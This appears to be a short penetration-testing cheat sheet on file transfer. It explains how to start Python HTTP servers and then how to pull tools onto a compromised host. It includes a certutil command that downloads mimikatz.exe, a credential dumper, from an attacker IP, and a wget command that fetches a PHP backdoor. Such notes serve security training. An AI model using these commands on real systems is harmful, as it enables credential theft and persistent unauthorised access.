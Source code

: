 # File Transferring

--------------------------------------------------------------------

## Python Web Server

```
python -V
python3 -V
py -v # on Windows
```

> Python 2.7
```
python -m SimpleHTTPServer <PORT_NUMBER>
```

> Python 3.7
```
python3 -m http.server <PORT_NUMBER>
```

> On Windows, try
```
python -m http.server <PORT>
py -3 -m http.server <PORT>
```

--------------------------------------------------------------------

```
cd /usr/share/windows-resources/mimikatz/x64
python3 -m http.server 80
cd C:\\
mkdir Temp
cd Temp
shell

> Windows:

certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe


> Linux:

wget http://192.196.45.2/php-backdoor.php
```